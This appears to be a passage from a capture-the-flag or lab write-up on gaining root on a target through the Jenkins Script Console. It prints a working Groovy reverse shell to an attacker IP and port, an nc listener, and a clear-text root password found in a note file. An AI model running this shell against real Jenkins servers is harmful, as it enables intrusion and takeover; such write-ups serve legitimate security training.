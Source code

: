
We go to Manage Jenkins -> Script Console. Enter the following information to get a remote shell:
```
String host="10.9.0.123";
int port=31337;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We start a nc listener:
```
└─$ nc -lvnp 31337
listening on [any] 31337 ...

```

We go back to Jenkins and "run" the script. We get a shell:
```
whoami
jenkins
```

Through enumeration we find a note in /opt; the same folder that we found the original password for *aubreanna*. This time it has the password for root:
```
jenkins@jenkins:/var$ cd /opt
jenkins@jenkins:/opt$ ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123

```

We try the credentials listed at the end of note. We get root:
```
aubreanna@internal:~$ su -
Password: 
root@internal:~# whoami
root

```

**Vulnerability Exploited:**
Weak password used for default user and a clear-text password was found in a text file.

**Vulnerability Explanation:**
We found a docker container running on the target machine that was running a webserver using Jenkins. We were able to brute-force the Jenkins login credentials due to the default user being enabled paired with the fact that the password was weak. We then found the password for root in clear-text note file on the server.
